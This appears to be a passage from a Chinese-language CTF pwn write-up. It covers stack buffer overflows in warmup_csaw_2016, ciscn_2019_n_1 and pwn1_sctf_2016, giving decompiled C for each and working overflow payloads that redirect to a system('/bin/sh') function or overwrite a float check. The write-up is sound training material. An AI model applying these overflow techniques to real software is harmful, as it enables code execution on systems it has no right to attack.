 ```python
payload = b'a' * (0xf) + p64(0x401186)
```

## warmup_csaw_2016

危险函数`gets`，缓冲区距离栈顶`0x40`字节

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```

程序会打印出函数`sub_40060D`的地址，此函数调用了`system('/bin/sh')`

由于是64位程序，rbp大小为8，故`payload = 'a' * 0x48 + sub_addr`

## ciscn_2019_n_1

危险函数`gets`，利用它通过覆盖掉`v2`的值；`v1`与`v2`距离为`0x2c`，`11.28125`的二进制表示是`0x41348000`
故`payload = 'a' * 0x2c + p64(0x41348000)`

```c
int func()
{
  int result; // eax
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    result = system("cat /flag");
  else
    result = puts("Its value should be 11.28125");
  return result;
}
```

## pwn1_sctf_2016

```c
  // vuln()
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  // ...
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
```
